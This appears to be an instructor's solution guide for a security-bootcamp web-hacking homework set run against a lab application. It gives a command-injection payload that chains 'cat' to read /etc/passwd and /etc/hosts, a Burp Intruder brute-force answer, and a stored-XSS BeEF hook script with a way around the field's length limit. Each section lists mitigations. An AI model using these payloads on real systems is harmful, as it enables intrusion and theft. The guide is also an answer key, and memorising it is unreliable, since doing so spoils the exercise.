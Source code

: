 # Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 8.8.8.8 && cat ../../../../../etc/passwd`.
  
  - Response should resemble: 
  
    ```
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=10.782 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 8.8.8.8 && cat ../../../../../etc/hosts`.
  
  - Response should resemble:

    ```            
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=14.212 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable**: There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable**: There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
- Once you are able to hook into Replicants website, attempt a couple BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  ![sol1](sol1.png)

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect the element`.

    ![sol2](sol2.png)
 
- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  ![sol3](sol3.png)
 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  ![sol4](sol4.png)


**Deliverable**: Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against Beef hooking their browsers.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
